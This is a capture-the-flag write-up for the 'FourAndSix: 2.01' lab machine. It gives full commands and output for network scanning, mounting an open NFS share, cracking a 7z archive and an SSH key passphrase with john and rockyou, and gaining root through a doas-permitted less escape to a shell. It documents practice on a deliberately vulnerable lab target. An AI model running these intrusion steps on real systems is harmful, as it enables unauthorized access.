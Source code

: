 # FourAndSix: 2.01

## 1.Get VM IP
```bash
root@kali: arp-scan -I eth0 -l

Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:0f       (Unknown: locally administered)
192.168.56.100  08:00:27:95:6e:f7       PCS Systemtechnik GmbH
192.168.56.110  08:00:27:41:81:5a       PCS Systemtechnik GmbH

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.603 seconds (98.35 hosts/sec). 3 responded
```
The IP address is `192.168.56.110`, let's enumerate it.


## 2.Enumeration
I first used rust scan which is alot faster than nmap to scan for top ports :
```bash
root@kali: rustscan -a 192.168.56.110 --range --top

Host is up, received arp-response (0.00054s latency).
Scanned at 2023-11-05 06:20:41 EST for 0s

PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 64
111/tcp  open  rpcbind syn-ack ttl 64
973/tcp  open  unknown syn-ack ttl 64
2049/tcp open  nfs     syn-ack ttl 64
MAC Address: 08:00:27:41:81:5A (Oracle VirtualBox virtual NIC)
```

then scanned the open ports with nmap :

```bash
root@kali: nmap -sC -sV -p22,111,973,2049 -v -oN nmap.out 192.168.56.110

Nmap scan report for 192.168.56.110
Host is up (0.00036s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 ef:3b:2e:cf:40:19:9e:bb:23:1e:aa:24:a1:09:4e:d1 (RSA)
|   256 c8:5c:8b:0b:e1:64:0c:75:c3:63:d7:b3:80:c9:2f:d2 (ECDSA)
|_  256 61:bc:45:9a:ba:a5:47:20:60:13:25:19:b0:47:cb:ad (ED25519)
111/tcp  open  rpcbind 2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100003  2,3         2049/tcp   nfs
|   100003  2,3         2049/udp   nfs
|   100005  1,3          763/udp   mountd
|_  100005  1,3          973/tcp   mountd
973/tcp  open  mountd  1-3 (RPC #100005)
2049/tcp open  nfs     2-3 (RPC #100003)
MAC Address: 08:00:27:41:81:5A (Oracle VirtualBox virtual NIC)
```

let's go for nfs first,

```bash
root@kali: showmount -e 192.168.56.110
       
Export list for 192.168.56.110:
/home/user/storage (everyone)
```

now mount it on your system :

```bash
root@kali: mount 192.168.56.110:/home/user/storage /mnt/tmp

root@kali: ls /mnt/tmp
backup.7z
```

when you want to unzip the file it asks for password and the only way to find it is to brute force the password

use the tool `7z2john` for this :

```bash
root@kali: 7z2john backup.7z > ziphash.txt

root@kali : john --wordlist=/usr/share/wordlists/rockyou.txt ziphash.txt
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (7z, 7-Zip archive encryption [SHA256 256/256 AVX2 8x AES])
Cost 1 (iteration count) is 524288 for all loaded hashes
Cost 2 (padding size) is 0 for all loaded hashes
Cost 3 (compression type) is 2 for all loaded hashes
Cost 4 (data length) is 9488 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
chocolate        (backup.7z)     
1g 0:00:00:01 DONE (2023-11-05 06:31) 0.9708g/s 31.06p/s 31.06c/s 31.06C/s 654321..butterfly
Use the "--show" option to display all of the cracked passwords reliably
```
## 3.Gaining Shell

Having the password we try to unzip the file :

```bash
root@kali: 7za e backup.7z
```

two of the files are interesting :
- id_rsa
- id_rsa.pub

from id_rsa.pub we can see the what user is associated with this public key :

```bash
root@kali: cat id_rsa.pub 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDClNemaX//nOugJPAWyQ1aDMgfAS8zrJh++hNeMGCo+TIm9UxVUNwc6vhZ8apKZHOX0Ht+MlHLYdkbwSinmCRmOkm2JbMYA5GNBG3fTNWOAbhd7dl2GPG7NUD+zhaDFyRk5gTqmuFumECDAgCxzeE8r9jBwfX73cETemexWKnGqLey0T56VypNrjvueFPmmrWCJyPcXtoLNQDbbdaWwJPhF0gKGrrWTEZo0NnU1lMAnKkiooDxLFhxOIOxRIXWtDtc61cpnnJHtKeO+9wL2q7JeUQB00KLs9/iRwV6b+kslvHaaQ4TR8IaufuJqmICuE4+v7HdsQHslmIbPKX6HANn user@fourandsix2
```

so the user `user` is bing to this key, we now just need to connect to server with the private key and user `user` :

```bash
root@kali: ssh -i id_rsa user@192.168.56.110
Enter passphrase for key 'id_rsa': 
```

but it needs the passphrase, we can use `ssh2john` for this one :

```bash
root@kali: ssh2john id_rsa > hash.txt

root@kali:  john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
12345678         (id_rsa)     
1g 0:00:00:01 DONE (2023-11-05 06:39) 0.8620g/s 13.79p/s 13.79c/s 13.79C/s 123456..jessica
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

now we can easily connect to server :

```bash
root@kali: ssh -i id_rsa user@192.168.56.110
Enter passphrase for key 'id_rsa': 
Last login: Sun Nov  5 12:11:12 2023 from 192.168.56.102
OpenBSD 6.4 (GENERIC) #349: Thu Oct 11 13:25:13 MDT 2018

Welcome to OpenBSD: The proactively secure Unix-like operating system.

Please use the sendbug(1) utility to report bugs in the system.
Before reporting a bug, please try to reproduce it with the latest
version of the code.  With bug reports, please try to ensure that
enough information to reproduce the problem is enclosed, and if a
known fix for it exists, include that as well.

fourandsix2$ id
uid=1000(user) gid=1000(user) groups=1000(user), 0(wheel)
```

you can either use `linpeas.sh` or look for files which has SUID permission

if you use linpeas.sh it mentions a file :

```bash
╔══════════╣ Checking doas.conf
permit nopass keepenv user as root cmd /usr/bin/less args /var/log/authlog
permit nopass keepenv root as root
```

or if you use the find command it shows you the `doas` binary :

```bash
fourandsix2$ find / -perm -u=s -type f 2>/dev/null     
/usr/bin/chfn
/usr/bin/chpass
/usr/bin/chsh
/usr/bin/doas
/usr/bin/lpr
/usr/bin/lprm
/usr/bin/passwd
/usr/bin/su
/usr/libexec/lockspool
/usr/libexec/ssh-keysign
/usr/sbin/authpf
/usr/sbin/authpf-noip
/usr/sbin/pppd
/usr/sbin/traceroute
/usr/sbin/traceroute6
/sbin/ping
/sbin/ping6
/sbin/shutdown
```

as linpeas states we can run `less` command as user root so let's try it :

```bash
fourandsix2$ doas /usr/bin/less /var/log/authlog 
```

then use `v` to escape to `vi` editor and the following command to enter to a new shell :

```bash
:!/bin/sh


fourandsix2# id
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
```

yes, now we can get the flag :

```bash
fourandsix2# cat flag.txt
Nice you hacked all the passwords!

Not all tools worked well. But with some command magic...:
cat /usr/share/wordlists/rockyou.txt|while read line; do 7z e backup.7z -p"$line" -oout; if grep -iRl SSH; then echo $line; break;fi;done

cat /usr/share/wordlists/rockyou.txt|while read line; do if ssh-keygen -p -P "$line" -N password -f id_rsa; then echo $line; break;fi;done


Here is the flag:
acd043bc3103ed3dd02eee99d5b0ff42
```


this is how you can finish the machine :)
